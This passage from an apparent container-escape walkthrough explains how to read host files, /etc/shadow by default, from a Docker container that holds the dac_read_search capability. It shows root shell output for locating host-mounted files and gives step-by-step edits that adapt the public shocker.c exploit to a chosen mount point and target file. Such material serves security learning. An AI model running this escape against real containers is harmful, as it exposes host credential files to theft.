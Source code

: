 ```
groups=0(root)

```
Notice the dac_read_search capability, like I said: this means we are capable of reading files from the host system!
I used the following [script](http://stealth.openwall.net/xSports/shocker.c) in order to read the files.

So how does the script work? 

The script is using the cap_dac_search capability to read the files, to make it work we first need a connection point to the host machine. 
For containers this should be a file mounted from the host system into the docker container. The script assumes it's a file called **.dockerinit**, but it can be anything.

Once it has a point to start it tries to go through all the files until it finds the file you have set in the script. The default is **/etc/shadows** 

Before we continue to use the script we first want to see if we can access the mounted file. (.dockerinit in our case)
If there is no .dockerinit file, we need to modify the script. Let's search for the file using find:

```
root@1a7416577c80:~# find / -name .dockerinit 2>/dev/null
root@1a7416577c80:~# 
```
No luck. What we need is something that is connected to the host machine, a good point to start is by checking if something is mounted from the host machine.  

Use `mount` to see if there are any files mounted: 
```
root@1a7416577c80:~# mount
[...]
/dev/sda2 on /etc/resolv.conf type ext4 (rw,relatime,data=ordered)
/dev/sda2 on /etc/hostname type ext4 (rw,relatime,data=ordered)
/dev/sda2 on /etc/hosts type ext4 (rw,relatime,data=ordered)

```
We can see three files referenced from the host system, I'm going to use **/etc/hostname** but feel free to use
other mounted files.

Now let's modify the shocker.c script, the code that we need to change is almost at the very bottom of the script: 
```

// get a FS reference from something mounted in from outside
	if ((fd1 = open("/.dockerinit", O_RDONLY)) < 0)
		die("[-] open");
```
Change **/.dockerinit** to **/etc/hostname** (or whatever mounted file you picked):
```
// get a FS reference from something mounted in from outside
	if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
		die("[-] open");
```
We're also going to parameterize the file to look for. So on the next line we need to change **/etc/shadow**:
```
if (find_handle(fd1, "/etc/shadow", &root_h, &h) <= 0)
		die("[-] Cannot find valid handle!");
```
To the following 
```
if (find_handle(fd1, argv[1], &root_h, &h) <= 0)
		die("[-] Cannot find valid handle!");
```